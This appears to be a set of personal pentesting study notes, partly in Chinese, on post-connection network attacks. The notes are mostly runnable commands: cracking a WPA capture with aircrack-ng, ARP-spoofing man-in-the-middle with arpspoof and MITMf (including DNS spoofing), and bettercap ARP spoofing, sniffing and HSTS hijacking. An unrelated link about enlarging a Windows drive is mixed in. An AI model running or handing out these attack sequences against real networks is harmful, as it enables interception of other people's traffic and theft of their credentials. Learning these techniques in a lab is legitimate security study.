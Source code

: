 aircrack-ng test1.cap -w wordlist


## post connection attack

### man in middle

arpspoof -i <interface> -t <target_IP> <AP_IP>
arpspoof -i <interface> -t  <AP_IP> <target_IP>
echo 1 > /proc/sys/net/ipv4/ip_forward

arp -a

局域网 ARP 欺骗原理详解
https://segmentfault.com/a/1190000009562333

google: mitmf github
https://github.com/byt3bl33d3r/MITMf
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4

git clone git@gitee.com:azhao-1981/MITMf.git

作者已经不更新而且，有更好的选择：
https://github.com/bettercap/bettercap

Win10 C盘扩容？试试这两种方法！
https://www.disktool.cn/content-center/extend-volume-c-with-ease.html

### http server
service apache2 start

### DNS

MITMf/*.conf
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 --dns

### bettercap

apt install bettercap
bettercap -iface eth0
help
help net.probe
net.probe on
net.show

help arp.spoof
set arp.spoof.fullduplex true
set arp.spoof.targets true
arp.spoof on
net.sniff on
caplets.show
hstshijack/hstshijack

## routersploit
